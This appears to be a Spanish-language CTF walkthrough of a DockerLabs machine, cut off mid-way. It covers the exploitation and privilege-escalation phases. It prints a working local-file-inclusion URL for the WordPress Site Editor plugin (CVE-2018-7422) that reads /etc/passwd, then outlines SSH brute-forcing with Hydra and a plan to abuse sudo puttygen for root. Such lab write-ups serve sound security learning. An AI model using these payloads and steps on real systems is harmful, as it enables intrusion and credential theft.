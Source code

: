 # Fase 3- Explotación

#### 1.1v
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/61fc8c35-937e-40a6-b787-38162928f7ff)
Encontramos un Local File Inclusion para el plugins `site-editor 1.1`.

#### 44340.txt
```
❯ searchsploit -m php/webapps/44340.txt

  Exploit: WordPress Plugin Site Editor 1.1.1 - Local File Inclusion
      URL: https://www.exploit-db.com/exploits/44340
     Path: /usr/share/exploitdb/exploits/php/webapps/44340.txt
    Codes: CVE-2018-7422
 Verified: True
File Type: Unicode text, UTF-8 text
cp: overwrite '/home/sansett/t4ifi/Maquinas/DockerLabs/Medias/asucar/scripts/44340.txt'? s
Copied to: /home/?/?/Maquinas/DockerLabs/Medias/asucar/scripts/44340.txt


❯ ls
 44340.txt
```
Lo bajamos, y dentro nos dice que para explotar esta vulnerabilidad tenemos que ejecutar de esta forma:
```
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```
Y se esta forma podríamos leer el passwd.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/be81aef2-0b5e-4878-99b5-8a43bbe00bfa)
Y lo conseguimos leer. Encontramos el usuario curiosito. Y si recordamos la maquina victima tiene el puerto 22 abierto, podemos hacer fuerza bruta.

#### Hydra
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/438a7e9f-31ee-45b8-a07b-c9f3cd4c31e3)
Y encontramos la contraseña del usuario curiosito.

# Fase 4- Privilegios

#### sudo -l
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/15adcfd1-5136-4e3b-8ffe-3907b333861c)

Despues de realizar el tratamiento de la TTY, al hacer el comando `sudo -l`, tenemos permisos de ejecución del binario `puttygen`.

#### puttygen
Puttygen se utiliza específicamente para generar claves SSH. Vamos a generar una clave para el usuario root.
